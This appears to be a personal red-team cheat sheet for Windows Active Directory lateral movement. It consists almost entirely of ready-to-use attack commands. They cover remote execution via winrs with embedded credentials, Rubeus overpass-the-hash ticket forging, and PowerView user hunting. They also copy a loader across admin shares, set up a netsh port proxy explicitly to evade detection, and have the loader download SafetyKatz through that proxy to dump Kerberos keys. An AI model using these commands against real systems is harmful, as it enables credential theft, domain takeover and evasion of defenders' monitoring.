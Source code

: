 ### **WINRS**
```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```
```powershell
winrs -r:<MACCHINA> cmd
```
### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

### **Other Sessions Opened**
```powerview
Find-DomainUserLocation
```
![[Pasted image 20231018164427.png]]
Connect Using Win-rs
### **Copy from a machine to another**
```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\<R MACHINE>\C$\Users\Public\Loader.exe
```

### **Avoid detection while downloading**
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<IP>"
```
Download and use program
```powershell
$null | winrs -r:<MACCHINA> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```